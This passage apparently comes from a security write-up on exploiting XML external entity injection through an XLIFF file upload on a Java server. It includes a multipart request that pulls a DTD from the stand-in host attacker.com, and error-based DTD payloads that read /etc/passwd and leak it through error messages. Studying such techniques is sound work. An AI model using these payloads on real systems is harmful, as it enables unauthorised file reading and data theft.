 The server response with an error:

```javascript
{"status":500,"error":"Internal Server Error","message":"Error systemId: http://redacted.burpcollaborator.net/?xxe_test; The markup declarations contained or pointed to by the document type declaration must be well-formed."}
```

But we got a hit on Burp Collaborator.

### Exfiltrating Data via Out of Band

```markup
------WebKitFormBoundaryqBdAsEtYaBjTArl3
Content-Disposition: form-data; name="file"; filename="xxe.xliff"
Content-Type: application/x-xliff+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE XXE [
<!ENTITY % remote SYSTEM "http://attacker.com/evil.dtd"> %remote; ]>
<xliff srcLang="en" trgLang="ms-MY" version="2.0"></xliff>
------WebKitFormBoundaryqBdAsEtYaBjTArl3--
```

Based on the displayed User Agent returned by burp collaborator, it appears that it is using **Java 1.8**. One of the problems when exploiting XXE on this version of Java is **we’re unable to obtain the files containing a `New Line`** such as `/etc/passwd` using the Out of Band technique.

### Exfiltrating Data via Error Based

DTD File:

```markup
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/'>">
%foo;
%xxe;
```

Server Response:

```javascript
{"status":500,"error":"Internal Server Error","message":"IO error.\nReason: /nofile (No such file or directory)"}
```

Great! The `non-exist` file is reflected in the Error messages. Next is adding the File Content.

DTD File:

```markup
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % foo "<!ENTITY &#37; xxe SYSTEM 'file:///nofile/%data;'>">
%foo;
%xxe;
```

And the content of the file was successfully **printed in the output of the error sent via HTTP**.
